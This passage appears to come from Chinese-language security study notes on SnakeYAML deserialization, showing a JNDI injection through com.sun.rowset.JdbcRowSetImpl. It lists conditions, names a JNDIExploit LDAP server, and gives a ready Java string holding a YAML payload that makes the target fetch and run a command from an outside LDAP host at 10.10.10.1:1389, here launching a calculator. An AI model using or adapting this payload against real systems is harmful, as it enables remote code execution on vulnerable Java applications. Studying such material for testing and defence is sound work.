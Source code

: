 ![image-20220125143736373](snakeyaml.assets/image-20220125143736373.png)

##### JNDI 

###### 基于 JdbcRowSetImpl

利用条件

- 需出网，限制同JNDI

LDAP服务

- JNDIExploit

![image-20220125144600810](snakeyaml.assets/image-20220125144600810.png)

payload-弹计算器

```java
String poc = "!!com.sun.rowset.JdbcRowSetImpl\n dataSourceName: \"ldap://10.10.10.1:1389/62617369632F436F6D6D616E642F63616C63\"\n autoCommit: true";
```

测试效果

 ![image-20220125144652166](snakeyaml.assets/image-20220125144652166.png)
